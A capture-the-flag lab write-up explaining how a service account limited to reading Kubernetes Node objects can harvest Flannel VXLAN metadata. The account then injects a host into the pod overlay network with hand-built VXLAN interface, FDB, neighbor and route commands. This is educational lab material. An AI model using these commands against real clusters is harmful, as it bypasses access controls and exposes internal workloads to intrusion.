# Split Horizon


```
Difficulty: Hard
Author: Mohit Gupta / Skybound
Category: Cloud Security / Kubernetes Networking
```

## Summary of Attack Chain

| Step | User / Access | Technique Used                     | Result                                                                                                                     |
| :--: | :------------ | :--------------------------------- | :------------------------------------------------------------------------------------------------------------------------- |
|   1  | bastion-sa    | **RBAC Enumeration**               | Identified that the service account possessed only `get` and `list` permissions against Kubernetes Node resources.         |
|   2  | bastion-sa    | **Node Metadata Enumeration**      | Retrieved Node objects and extracted Flannel annotations containing node IPs, Pod CIDRs, and VXLAN endpoint MAC addresses. |
|   3  | bastion-sa    | **Overlay Network Reconnaissance** | Mapped the Flannel VXLAN topology and identified network relationships between cluster nodes and pod networks.             |
|   4  | bastion Host  | **Underlay Network Discovery**     | Determined the bastion host's underlay IP address required to participate in the overlay network.                          |
|   5  | bastion Host  | **VXLAN Interface Emulation**      | Created a local `flannel.1` VXLAN interface matching the cluster's Flannel configuration.                                  |
|   6  | bastion Host  | **FDB Reconstruction**             | Rebuilt VXLAN forwarding entries by mapping VTEP MAC addresses to Kubernetes node IP addresses.                            |
|   7  | bastion Host  | **ARP Table Reconstruction**       | Added static neighbor entries associating Pod CIDR gateways with Flannel VXLAN MAC addresses.                              |
|   8  | bastion Host  | **Overlay Route Injection**        | Added routes for all Pod CIDRs, enabling communication with workloads across the cluster overlay network.                  |
|   9  | bastion Host  | **CoreDNS Discovery & Validation** | Successfully queried CoreDNS through the reconstructed overlay network, validating internal network access.                |
|  10  | bastion Host  | **DNS-Based Service Enumeration**  | Performed PTR enumeration against the Service CIDR and discovered the hidden internal service.                             |
|  11  | bastion Host  | **Service Characterization**       | Queried DNS SRV records to identify the target service's listening port.                                                   |
|  12  | bastion Host  | **Backend Pod Discovery**          | Located the backend workload by scanning Pod CIDRs and correlating the discovered service port.                            |
|  13  | bastion Host  | **Direct Workload Interaction**    | Connected directly to the backend pod and interacted with the application to retrieve the challenge flag.                  |




## Extract Flannel Information


At this stage, the objective is not to directly access the target service but to understand the Kubernetes networking architecture using the limited permissions available to the bastion account.

The assigned service account only has permission to list and retrieve Node objects. While this appears restrictive, Node metadata often exposes networking information required for cluster operations. In environments using Flannel VXLAN, nodes publish overlay networking details through annotations so that other cluster components can establish connectivity.

By enumerating the nodes, we can identify:

* The underlay IP address of each Kubernetes node.
* The Pod CIDR assigned to each node.
* The VXLAN Tunnel Endpoint (VTEP) MAC address used by Flannel.
* The overlay network configuration in use (VXLAN).

This information provides a complete map of how pod traffic is transported between nodes. Although direct access to Pods, Services, Endpoints, and Namespaces is restricted by RBAC, the exposed Flannel metadata reveals enough information to manually participate in the cluster's overlay network.

The challenge assumes that restricting API visibility prevents access to internal workloads. However, Node metadata discloses the networking details necessary to reconstruct the overlay network externally.

The information gathered in this step will later be used to:

1. Build a custom VXLAN interface on the bastion.
2. Establish routes into the Kubernetes pod network.
3. Reach internal pod IPs without requiring additional Kubernetes permissions.
4. Discover hidden services through direct network access rather than API enumeration.

The most important takeaway from this step is that the bastion now possesses sufficient information to act as an overlay-network peer. No Kubernetes resources need to be created, and no privilege escalation is required. The data published by the Node objects alone is enough to reconstruct the cluster's networking topology and prepare for direct communication with internal workloads.


```bash
Loading...
Spinning up network lab... done
Tip: if terminal size is off, run `resize` to correct.
Good luck!
Network lab

Useful starting points:
  kubectl auth can-i --list
  kubectl get nodes -o json
  dig @<dns-server> -x <cluster-ip>
  ip addr
  ip route
  tcpdump -ni eth0
root@bastion:~# kubectl auth can-i --list
Resources                                       Non-Resource URLs                      Resource Names   Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
nodes                                           []                                     []               [get list]
                                                [/.well-known/openid-configuration/]   []               [get]
                                                [/.well-known/openid-configuration]    []               [get]
                                                [/api/*]                               []               [get]
                                                [/api]                                 []               [get]
                                                [/apis/*]                              []               [get]
                                                [/apis]                                []               [get]
                                                [/healthz]                             []               [get]
                                                [/healthz]                             []               [get]
                                                [/livez]                               []               [get]
                                                [/livez]                               []               [get]
                                                [/openapi/*]                           []               [get]
                                                [/openapi]                             []               [get]
                                                [/openid/v1/jwks/]                     []               [get]
                                                [/openid/v1/jwks]                      []               [get]
                                                [/readyz]                              []               [get]
                                                [/readyz]                              []               [get]
                                                [/version/]                            []               [get]
                                                [/version/]                            []               [get]
                                                [/version]                             []               [get]
                                                [/version]                             []               [get]
root@bastion:~# kubectl get nodes -o json
{
    "apiVersion": "v1",
    "items": [
        {
            "apiVersion": "v1",
            "kind": "Node",
            "metadata": {
                "annotations": {
                    "flannel.alpha.coreos.com/backend-data": "{\"VNI\":1,\"VtepMAC\":\"72:6c:75:ba:48:cb\"}",
                    "flannel.alpha.coreos.com/backend-type": "vxlan",
                    "flannel.alpha.coreos.com/kube-subnet-manager": "true",
                    "flannel.alpha.coreos.com/public-ip": "172.30.0.2",
                    "k3s.io/node-args": "[\"server\",\"--node-name\",\"master-1\",\"--service-cidr\",\"10.43.0.0/16\",\"--cluster-dns\",\"10.43.0.10\",\"--flannel-backend\",\"vxlan\",\"--disable-network-policy\",\"--disable\",\"traefik,metrics-server,servicelb,local-storage\",\"--disable-helm-controller\",\"--disable-cloud-controller\",\"--kube-apiserver-arg\",\"watch-cache=false\",\"--kube-apiserver-arg\",\"event-ttl=10m\",\"--kubelet-arg\",\"container-log-max-size=10Mi\",\"--kubelet-arg\",\"container-log-max-files=2\",\"--tls-san\",\"0.0.0.0\"]",
                    "k3s.io/node-config-hash": "7GZNJUXPFCJUAAMW72BP7QAAOMZD25KVVFTQHC3FXLWYFNTBE3IA====",
                    "k3s.io/node-env": "{\"K3S_KUBECONFIG_OUTPUT\":\"/output/kubeconfig.yaml\",\"K3S_TOKEN\":\"********\"}",
                    "node.alpha.kubernetes.io/ttl": "0",
                    "volumes.kubernetes.io/controller-managed-attach-detach": "true"
                },
                "creationTimestamp": "2026-04-30T13:05:32Z",
                "finalizers": [
                    "wrangler.cattle.io/node"
                ],
                "labels": {
                    "beta.kubernetes.io/arch": "amd64",
                    "beta.kubernetes.io/os": "linux",
                    "kubernetes.io/arch": "amd64",
                    "kubernetes.io/hostname": "master-1",
                    "kubernetes.io/os": "linux",
                    "node-role.kubernetes.io/control-plane": "true",
                    "node-role.kubernetes.io/master": "true"
                },
                "name": "master-1",
                "resourceVersion": "482",
                "uid": "4b22df0a-1463-4491-9fc4-5b895c5cec2c"
            },
            "spec": {
                "podCIDR": "10.42.0.0/24",
                "podCIDRs": [
                    "10.42.0.0/24"
                ]
            },
            "status": {
                "addresses": [
                    {
                        "address": "172.30.0.2",
                        "type": "InternalIP"
                    },
                    {
                        "address": "master-1",
                        "type": "Hostname"
                    }
                ],
                "allocatable": {
                    "cpu": "4",
                    "ephemeral-storage": "3936493565",
                    "hugepages-1Gi": "0",
                    "hugepages-2Mi": "0",
                    "memory": "2041380Ki",
                    "pods": "110"
                },
                "capacity": {
                    "cpu": "4",
                    "ephemeral-storage": "4046560Ki",
                    "hugepages-1Gi": "0",
                    "hugepages-2Mi": "0",
                    "memory": "2041380Ki",
                    "pods": "110"
                },
                "conditions": [
                    {
                        "lastHeartbeatTime": "2026-04-30T13:06:03Z",
                        "lastTransitionTime": "2026-04-30T13:05:32Z",
                        "message": "kubelet has sufficient memory available",
                        "reason": "KubeletHasSufficientMemory",
                        "status": "False",
                        "type": "MemoryPressure"
                    },
                    {
                        "lastHeartbeatTime": "2026-04-30T13:06:03Z",
                        "lastTransitionTime": "2026-04-30T13:05:32Z",
                        "message": "kubelet has no disk pressure",
                        "reason": "KubeletHasNoDiskPressure",
                        "status": "False",
                        "type": "DiskPressure"
                    },
                    {
                        "lastHeartbeatTime": "2026-04-30T13:06:03Z",
                        "lastTransitionTime": "2026-04-30T13:05:32Z",
                        "message": "kubelet has sufficient PID available",
                        "reason": "KubeletHasSufficientPID",
                        "status": "False",
                        "type": "PIDPressure"
                    },
                    {
                        "lastHeartbeatTime": "2026-04-30T13:06:03Z",
                        "lastTransitionTime": "2026-04-30T13:05:33Z",
                        "message": "kubelet is posting ready status",
                        "reason": "KubeletReady",
                        "status": "True",
                        "type": "Ready"
                    }
                ],
                "daemonEndpoints": {
                    "kubeletEndpoint": {
                        "Port": 10250
                    }
                },
                "images": [
                    {
                        "names": [
                            "docker.io/library/lab-tools:latest"
                        ],
                        "sizeBytes": 264685068
                    },
                    {
                        "names": [
                            "docker.io/rancher/mirrored-pause:3.6"
                        ],
                        "sizeBytes": 685866
                    }
                ],
                "nodeInfo": {
                    "architecture": "amd64",
                    "bootID": "a8454756-415a-46f1-8639-9d44c12e594a",
                    "containerRuntimeVersion": "containerd://1.7.23-k3s2",
                    "kernelVersion": "6.1.128",
                    "kubeProxyVersion": "v1.31.5+k3s1",
                    "kubeletVersion": "v1.31.5+k3s1",
                    "machineID": "",
                    "operatingSystem": "linux",
                    "osImage": "K3s v1.31.5+k3s1",
                    "systemUUID": ""
                }
            }
        },
        {
            "apiVersion": "v1",
            "kind": "Node",
            "metadata": {
                "annotations": {
                    "flannel.alpha.coreos.com/backend-data": "{\"VNI\":1,\"VtepMAC\":\"9e:dd:0e:f3:9b:8e\"}",
                    "flannel.alpha.coreos.com/backend-type": "vxlan",
                    "flannel.alpha.coreos.com/kube-subnet-manager": "true",
                    "flannel.alpha.coreos.com/public-ip": "172.30.0.4",
                    "k3s.io/node-args": "[\"agent\",\"--node-name\",\"worker-1\"]",
                    "k3s.io/node-config-hash": "2VISDBEIGMSX2KEDPD4MNDBX4JJ4Q4ME56IJIOK5B2IBH754O3UA====",
                    "k3s.io/node-env": "{\"K3S_KUBECONFIG_OUTPUT\":\"/output/kubeconfig.yaml\",\"K3S_TOKEN\":\"********\",\"K3S_URL\":\"https://k3d-research-lab-server-0:6443\"}",
                    "node.alpha.kubernetes.io/ttl": "0",
                    "volumes.kubernetes.io/controller-managed-attach-detach": "true"
                },
                "creationTimestamp": "2026-04-30T13:05:36Z",
                "finalizers": [
                    "wrangler.cattle.io/node"
                ],
                "labels": {
                    "beta.kubernetes.io/arch": "amd64",
                    "beta.kubernetes.io/os": "linux",
                    "kubernetes.io/arch": "amd64",
                    "kubernetes.io/hostname": "worker-1",
                    "kubernetes.io/os": "linux"
                },
                "name": "worker-1",
                "resourceVersion": "485",
                "uid": "f28004b9-edd9-4ae6-b5f4-e27631fe9a5d"
            },
            "spec": {
                "podCIDR": "10.42.1.0/24",
                "podCIDRs": [
                    "10.42.1.0/24"
                ]
            },
            "status": {
                "addresses": [
                    {
                        "address": "172.30.0.4",
                        "type": "InternalIP"
                    },
                    {
                        "address": "worker-1",
                        "type": "Hostname"
                    }
                ],
                "allocatable": {
                    "cpu": "4",
                    "ephemeral-storage": "3936493565",
                    "hugepages-1Gi": "0",
                    "hugepages-2Mi": "0",
                    "memory": "2041380Ki",
                    "pods": "110"
                },
                "capacity": {
                    "cpu": "4",
                    "ephemeral-storage": "4046560Ki",
                    "hugepages-1Gi": "0",
                    "hugepages-2Mi": "0",
                    "memory": "2041380Ki",
                    "pods": "110"
                },
                "conditions": [
                    {
                        "lastHeartbeatTime": "2026-06-08T10:45:14Z",
                        "lastTransitionTime": "2026-04-30T13:05:36Z",
                        "message": "kubelet has sufficient memory available",
                        "reason": "KubeletHasSufficientMemory",
                        "status": "False",
                        "type": "MemoryPressure"
                    },
                    {
                        "lastHeartbeatTime": "2026-06-08T10:45:14Z",
                        "lastTransitionTime": "2026-04-30T13:05:36Z",
                        "message": "kubelet has no disk pressure",
                        "reason": "KubeletHasNoDiskPressure",
                        "status": "False",
                        "type": "DiskPressure"
                    },
                    {
                        "lastHeartbeatTime": "2026-06-08T10:45:14Z",
                        "lastTransitionTime": "2026-04-30T13:05:36Z",
                        "message": "kubelet has sufficient PID available",
                        "reason": "KubeletHasSufficientPID",
                        "status": "False",
                        "type": "PIDPressure"
                    },
                    {
                        "lastHeartbeatTime": "2026-06-08T10:45:14Z",
                        "lastTransitionTime": "2026-04-30T13:05:36Z",
                        "message": "kubelet is posting ready status",
                        "reason": "KubeletReady",
                        "status": "True",
                        "type": "Ready"
                    }
                ],
                "daemonEndpoints": {
                    "kubeletEndpoint": {
                        "Port": 10250
                    }
                },
                "images": [
                    {
                        "names": [
                            "docker.io/library/lab-tools:latest"
                        ],
                        "sizeBytes": 264685068
                    },
                    {
                        "names": [
                            "docker.io/rancher/mirrored-coredns-coredns@sha256:82979ddf442c593027a57239ad90616deb874e90c365d1a96ad508c2104bdea5",
                            "docker.io/rancher/mirrored-coredns-coredns:1.12.0"
                        ],
                        "sizeBytes": 20938299
                    },
                    {
                        "names": [
                            "docker.io/rancher/mirrored-pause@sha256:74c4244427b7312c5b901fe0f67cbc53683d06f4f24c6faee65d4182bf0fa893",
                            "docker.io/rancher/mirrored-pause:3.6"
                        ],
                        "sizeBytes": 301463
                    }
                ],
                "nodeInfo": {
                    "architecture": "amd64",
                    "bootID": "a8454756-415a-46f1-8639-9d44c12e594a",
                    "containerRuntimeVersion": "containerd://1.7.23-k3s2",
                    "kernelVersion": "6.1.128",
                    "kubeProxyVersion": "v1.31.5+k3s1",
                    "kubeletVersion": "v1.31.5+k3s1",
                    "machineID": "",
                    "operatingSystem": "linux",
                    "osImage": "K3s v1.31.5+k3s1",
                    "systemUUID": ""
                }
            }
        },
        {
            "apiVersion": "v1",
            "kind": "Node",
            "metadata": {
                "annotations": {
                    "flannel.alpha.coreos.com/backend-data": "{\"VNI\":1,\"VtepMAC\":\"4a:95:90:04:46:ab\"}",
                    "flannel.alpha.coreos.com/backend-type": "vxlan",
                    "flannel.alpha.coreos.com/kube-subnet-manager": "true",
                    "flannel.alpha.coreos.com/public-ip": "172.30.0.3",
                    "k3s.io/node-args": "[\"agent\",\"--node-name\",\"worker-2\"]",
                    "k3s.io/node-config-hash": "WZLVJPXKFUGMIRJCSTVW5NRXYAKHCJGA5PEZE3TVKHECUB5FQSZA====",
                    "k3s.io/node-env": "{\"K3S_KUBECONFIG_OUTPUT\":\"/output/kubeconfig.yaml\",\"K3S_TOKEN\":\"********\",\"K3S_URL\":\"https://k3d-research-lab-server-0:6443\"}",
                    "node.alpha.kubernetes.io/ttl": "0",
                    "volumes.kubernetes.io/controller-managed-attach-detach": "true"
                },
                "creationTimestamp": "2026-04-30T13:05:35Z",
                "finalizers": [
                    "wrangler.cattle.io/node"
                ],
                "labels": {
                    "beta.kubernetes.io/arch": "amd64",
                    "beta.kubernetes.io/os": "linux",
                    "kubernetes.io/arch": "amd64",
                    "kubernetes.io/hostname": "worker-2",
                    "kubernetes.io/os": "linux"
                },
                "name": "worker-2",
                "resourceVersion": "484",
                "uid": "42949c42-96f9-45af-ab39-b8739cb7b170"
            },
            "spec": {
                "podCIDR": "10.42.2.0/24",
                "podCIDRs": [
                    "10.42.2.0/24"
                ]
            },
            "status": {
                "addresses": [
                    {
                        "address": "172.30.0.3",
                        "type": "InternalIP"
                    },
                    {
                        "address": "worker-2",
                        "type": "Hostname"
                    }
                ],
                "allocatable": {
                    "cpu": "4",
                    "ephemeral-storage": "3936493565",
                    "hugepages-1Gi": "0",
                    "hugepages-2Mi": "0",
                    "memory": "2041380Ki",
                    "pods": "110"
                },
                "capacity": {
                    "cpu": "4",
                    "ephemeral-storage": "4046560Ki",
                    "hugepages-1Gi": "0",
                    "hugepages-2Mi": "0",
                    "memory": "2041380Ki",
                    "pods": "110"
                },
                "conditions": [
                    {
                        "lastHeartbeatTime": "2026-06-08T10:45:14Z",
                        "lastTransitionTime": "2026-04-30T13:05:35Z",
                        "message": "kubelet has sufficient memory available",
                        "reason": "KubeletHasSufficientMemory",
                        "status": "False",
                        "type": "MemoryPressure"
                    },
                    {
                        "lastHeartbeatTime": "2026-06-08T10:45:14Z",
                        "lastTransitionTime": "2026-04-30T13:05:35Z",
                        "message": "kubelet has no disk pressure",
                        "reason": "KubeletHasNoDiskPressure",
                        "status": "False",
                        "type": "DiskPressure"
                    },
                    {
                        "lastHeartbeatTime": "2026-06-08T10:45:14Z",
                        "lastTransitionTime": "2026-04-30T13:05:35Z",
                        "message": "kubelet has sufficient PID available",
                        "reason": "KubeletHasSufficientPID",
                        "status": "False",
                        "type": "PIDPressure"
                    },
                    {
                        "lastHeartbeatTime": "2026-06-08T10:45:14Z",
                        "lastTransitionTime": "2026-04-30T13:05:36Z",
                        "message": "kubelet is posting ready status",
                        "reason": "KubeletReady",
                        "status": "True",
                        "type": "Ready"
                    }
                ],
                "daemonEndpoints": {
                    "kubeletEndpoint": {
                        "Port": 10250
                    }
                },
                "images": [
                    {
                        "names": [
                            "docker.io/library/lab-tools:latest"
                        ],
                        "sizeBytes": 264685068
                    },
                    {
                        "names": [
                            "docker.io/rancher/mirrored-pause:3.6"
                        ],
                        "sizeBytes": 685866
                    }
                ],
                "nodeInfo": {
                    "architecture": "amd64",
                    "bootID": "a8454756-415a-46f1-8639-9d44c12e594a",
                    "containerRuntimeVersion": "containerd://1.7.23-k3s2",
                    "kernelVersion": "6.1.128",
                    "kubeProxyVersion": "v1.31.5+k3s1",
                    "kubeletVersion": "v1.31.5+k3s1",
                    "machineID": "",
                    "operatingSystem": "linux",
                    "osImage": "K3s v1.31.5+k3s1",
                    "systemUUID": ""
                }
            }
        }
    ],
    "kind": "List",
    "metadata": {
        "resourceVersion": ""
    }
}
root@bastion:~# root@bastion:~# dig @10.42.1.2 cluster.local SOA

; <<>> DiG 9.18.39-0ubuntu0.22.04.3-Ubuntu <<>> @10.42.1.2 cluster.local SOA
; (1 server found)
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 21675
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
; COOKIE: fdc747576f1fec77 (echoed)
;; QUESTION SECTION:
;cluster.local.                 IN      SOA

;; ANSWER SECTION:
cluster.local.          5       IN      SOA     ns.dns.cluster.local. hostmaster.cluster.local. 1777554361 7200 1800 86400 5

;; Query time: 0 msec
;; SERVER: 10.42.1.2#53(10.42.1.2) (UDP)
;; WHEN: Mon Jun 08 10:55:50 UTC 2026
;; MSG SIZE  rcvd: 147

root@bastion:~# 

```

Output:

```text
master-1 172.30.0.2 72:6c:75:ba:48:cb 10.42.0.0/24
worker-1 172.30.0.4 9e:dd:0e:f3:9b:8e 10.42.1.0/24
worker-2 172.30.0.3 4a:95:90:04:46:ab 10.42.2.0/24
```

)



## Identified Bastion IP


After identifying the Flannel overlay configuration and node networking details, the next requirement is determining the bastion host's underlay IP address.

The bastion system exists outside the Kubernetes overlay network and must later inject traffic into that network by creating its own VXLAN interface. For the Linux kernel to correctly route packets through the overlay, it needs a valid source address that belongs to the underlay network.

This step establishes the network identity of the bastion host from the perspective of the Kubernetes nodes.


When routes to the Pod CIDRs are added later, Linux must know which source IP address to use when sending traffic through the VXLAN tunnel.

Without specifying a valid source address:

* Return traffic may be routed incorrectly.
* Overlay communication may fail.
* Packets could be dropped due to asymmetric routing.
* The manually created VXLAN interface may not function as expected.

The bastion's underlay IP becomes the foundation for all subsequent routing operations.


This step reveals the bastion's network location within the underlying infrastructure.

Combined with the information collected from the Kubernetes nodes, we now know:

* The underlay addresses of cluster nodes.
* The Pod CIDRs assigned to those nodes.
* The VXLAN tunnel information used by Flannel.
* The bastion's own underlay address.

With both sides of the network path identified, the environment has enough information to begin constructing a functional connection into the Kubernetes overlay network.


```bash
ip -4 addr show eth0
```




## Creating VXLAN Interface


The Kubernetes cluster uses Flannel with a VXLAN backend to transport pod traffic between nodes. Although the bastion host is not a Kubernetes node, the networking information gathered from the Node objects provides enough detail to emulate a legitimate VXLAN participant.

At this stage, the objective is to create a local VXLAN interface that can communicate with the same overlay network used by the cluster. This effectively extends the cluster's pod network to the bastion host without requiring Kubernetes API access or additional privileges within the cluster.

Rather than interacting with workloads through Kubernetes resources such as Services, Pods, or Endpoints, communication will occur directly at the network layer.


Kubernetes assumes that only cluster nodes participate in the overlay network. However, VXLAN is ultimately a networking technology that relies on shared tunnel parameters and endpoint information.

By creating a matching VXLAN interface:

* The bastion can encapsulate traffic exactly as a cluster node would.
* Pod networks become reachable without using the Kubernetes API.
* Internal workloads can be discovered through direct network communication.
* Network segmentation enforced by Kubernetes object visibility can be bypassed.

This transforms the bastion from a passive observer into an active participant in the cluster's overlay infrastructure.


The challenge highlights an important design assumption: restricting access to Kubernetes resources does not necessarily restrict access to Kubernetes networks.

Even though the service account cannot enumerate Pods, Services, or Endpoints, the exposed Flannel configuration allows reconstruction of the networking plane. Once a compatible VXLAN interface exists, visibility can shift from API-based discovery to network-based discovery.


After this step, the bastion possesses its own interface capable of participating in the Flannel overlay network.

The environment now contains:

* Kubernetes node underlay addresses.
* Pod CIDR assignments.
* Flannel VXLAN configuration.
* Bastion underlay address.
* A local VXLAN interface connected to the same overlay domain as the cluster.

The remaining challenge is teaching the operating system how to reach remote pod networks through this newly established overlay connection.


```bash
ip link add flannel.1 type vxlan id 1 dev eth0 dstport 8472 nolearning
ip link set flannel.1 up
ip addr add 10.42.99.0/32 dev flannel.1
```



## Add Flannel FDB Entries


The VXLAN interface created on the bastion is now capable of encapsulating traffic, but it still lacks knowledge of where remote overlay destinations reside.

In a normal Flannel deployment, nodes automatically learn how to reach other VXLAN tunnel endpoints through control-plane updates and forwarding database (FDB) entries. Because the bastion is not a cluster node, it does not participate in this learning process and therefore has no awareness of the remote VTEPs.

To compensate, the forwarding information must be populated manually.

FDB entries establish the relationship between:

* A remote Flannel VXLAN MAC address.
* The corresponding node's underlay IP address.

This allows encapsulated traffic destined for remote pod networks to be delivered to the correct Kubernetes node.


Without FDB entries:

* The VXLAN interface exists but cannot locate remote tunnel endpoints.
* Encapsulated packets have no valid destination mapping.
* Traffic intended for remote pod networks is dropped.
* Overlay communication fails before reaching any Kubernetes workload.

The forwarding database effectively acts as the VXLAN equivalent of a switch's MAC address table. It tells the system which physical node should receive traffic destined for a particular overlay endpoint.


This step demonstrates how information exposed through Kubernetes Node annotations can be leveraged outside the cluster.

The Flannel VTEP MAC addresses published by each node were intended for overlay network coordination. However, because these values are visible to the low-privileged service account, they can be reused to manually reconstruct the forwarding state that Flannel would normally distribute automatically.

As a result, an external host can participate in the overlay network despite not being part of the Kubernetes cluster.


After the forwarding database is populated:

* The bastion knows the MAC address of each remote VXLAN endpoint.
* The bastion knows the corresponding underlay IP of each node.
* Encapsulated traffic can be forwarded to the correct Kubernetes node.
* The VXLAN interface is no longer isolated and can begin communicating with remote portions of the overlay network.

The overlay infrastructure is now aware of where remote tunnel endpoints exist. The next step is enabling Layer 3 communication by associating overlay IP addresses with those remote nodes.


```bash
bridge fdb append 72:6c:75:ba:48:cb dev flannel.1 dst 172.30.0.2 self permanent

bridge fdb append 9e:dd:0e:f3:9b:8e dev flannel.1 dst 172.30.0.4 self permanent

bridge fdb append 4a:95:90:04:46:ab dev flannel.1 dst 172.30.0.3 self permanent
```


## Add ARP Entries


At this stage, the bastion host knows how to reach the remote VXLAN tunnel endpoints through the manually configured FDB entries. However, the system still lacks the information required to associate overlay IP addresses with those remote endpoints.

Within the Flannel overlay network, traffic is ultimately routed toward pod networks assigned to specific Kubernetes nodes. To deliver packets correctly, the bastion must know which overlay address corresponds to each remote VXLAN endpoint.

Normally, neighboring hosts discover this information automatically through ARP requests. Because the bastion was manually inserted into the overlay network and is not participating in Flannel's normal control mechanisms, this discovery process must be replicated manually.


Without ARP entries:

* The operating system knows a route exists.
* The VXLAN interface knows where remote tunnel endpoints reside.
* The system does not know which Layer 2 destination should receive traffic for a given overlay IP.

As a result:

* ARP resolution fails.
* Packets never leave the bastion.
* Communication with remote pod networks is impossible.

Static ARP entries bridge the gap between overlay IP addresses and the VXLAN MAC addresses learned during the previous step.


This stage further demonstrates how exposing networking metadata can weaken isolation assumptions.

By combining:

* Node underlay addresses,
* Pod CIDRs,
* Flannel VTEP MAC addresses,

an attacker can reconstruct both Layer 2 and Layer 3 relationships within the overlay network without requiring access to Kubernetes resources such as Pods, Endpoints, or Services.

The bastion is effectively rebuilding the neighbor table that legitimate cluster nodes maintain automatically.


After the ARP entries are added:

* Overlay IP addresses can be resolved successfully.
* The operating system knows which VXLAN MAC address owns each remote overlay destination.
* Layer 2 communication across the overlay becomes functional.
* The bastion possesses enough information to forward traffic toward remote pod networks.

With VXLAN forwarding and neighbor resolution now established, the final requirement is teaching the operating system which pod networks should be sent through the overlay interface.


```bash
ip neigh add 10.42.0.0 lladdr 72:6c:75:ba:48:cb dev flannel.1

ip neigh add 10.42.1.0 lladdr 9e:dd:0e:f3:9b:8e dev flannel.1

ip neigh add 10.42.2.0 lladdr 4a:95:90:04:46:ab dev flannel.1
```



## Add Routes


The bastion host can now communicate with remote VXLAN tunnel endpoints and resolve overlay neighbors through the manually configured FDB and ARP entries. However, the operating system still has no knowledge of which networks should be reached through the newly created overlay interface.

Routing information is the final component required to make the overlay network usable. By adding routes for the Pod CIDRs assigned to each Kubernetes node, the bastion gains the ability to direct traffic toward internal workloads.

This step transforms the VXLAN interface from a connected tunnel into a functional path for reaching the cluster's internal address space.


Without routing entries:

* The operating system does not know where pod networks reside.
* Packets destined for Kubernetes workloads follow the default route.
* Traffic never enters the VXLAN interface.
* Overlay communication remains inaccessible despite the interface being fully configured.

Routing entries explicitly instruct the kernel that specific Pod CIDRs should be reached through the Flannel overlay interface rather than through the normal network gateway.


Kubernetes RBAC controls access to resources exposed by the API server, but it does not inherently protect the underlying network plane.

Once an attacker reconstructs:

* VXLAN tunnel endpoints,
* Layer 2 neighbor relationships,
* Pod network assignments,

they can build routing paths directly into the cluster's internal address space. At this point, workload discovery no longer depends on Kubernetes permissions and instead relies on traditional network reconnaissance techniques.

This demonstrates how networking metadata can become a valuable source of unintended exposure when combined with overlay network technologies.


After the routes are installed:

* The bastion knows which Pod CIDRs belong to each Kubernetes node.
* Traffic destined for pod networks is forwarded through the VXLAN interface.
* Overlay communication becomes fully operational.
* Internal Kubernetes workloads become reachable using their pod IP addresses.

With routing now in place, the bastion has effectively joined the Flannel overlay network and can begin interacting with resources that were previously hidden behind Kubernetes networking abstractions.

Replace `172.30.0.5` with bastion IP.

```bash
ip route add 10.42.0.0/24 via 10.42.0.0 dev flannel.1 onlink src 172.30.0.5

ip route add 10.42.1.0/24 via 10.42.1.0 dev flannel.1 onlink src 172.30.0.5

ip route add 10.42.2.0/24 via 10.42.2.0 dev flannel.1 onlink src 172.30.0.5
```

